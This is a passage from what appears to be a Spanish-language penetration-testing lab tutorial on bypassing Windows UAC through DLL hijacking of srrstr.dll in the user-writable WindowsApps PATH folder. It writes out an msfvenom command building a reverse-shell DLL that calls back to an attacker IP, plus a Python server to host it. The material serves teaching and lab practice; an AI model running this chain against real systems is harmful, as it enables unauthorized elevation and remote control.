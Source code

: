 Al intentar localizar una DLL, Windows utilizará el siguiente orden de búsqueda.

1. El directorio desde el cual se cargó la aplicación.
2. El directorio del sistema `C:\Windows\System32` para sistemas de 64 bits.
3. El directorio del sistema de 16 bits `C:\Windows\System` (no soportado en sistemas de 64 bits).
4. El directorio de Windows.
5. Cualquier directorio que esté listado en la variable de entorno PATH.

### Reviewing Path Variable

Examinemos la variable path utilizando el comando `cmd /c echo %PATH%`. Esto revela las carpetas predeterminadas a continuación. La carpeta `WindowsApps` está dentro del perfil del usuario y es escribible por el usuario.

```r
PS C:\htb> cmd /c echo %PATH%

C:\Windows\system32;
C:\Windows;
C:\Windows\System32\Wbem;
C:\Windows\System32\WindowsPowerShell\v1.0\;
C:\Users\sarah\AppData\Local\Microsoft\WindowsApps;
```

Podemos potencialmente eludir UAC en esto utilizando la técnica de secuestro de DLL colocando una DLL maliciosa `srrstr.dll` en la carpeta `WindowsApps`, que será cargada en un contexto elevado.

### Generating Malicious srrstr.dll DLL

Primero, generemos una DLL para ejecutar una reverse shell.

```r
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 5120 bytes
```

Nota: En el ejemplo anterior, especificamos nuestra dirección IP VPN tun0.

### Starting Python HTTP Server on Attack Host

Copiamos la DLL generada a una carpeta y configuramos un mini servidor web Python para alojarla.

```r
sudo python3 -m http.server 8080
```

### Downloading DLL Target

Descargamos la DLL maliciosa al sistema objetivo y configuramos un `Netcat` listener en nuestra máquina de ataque.
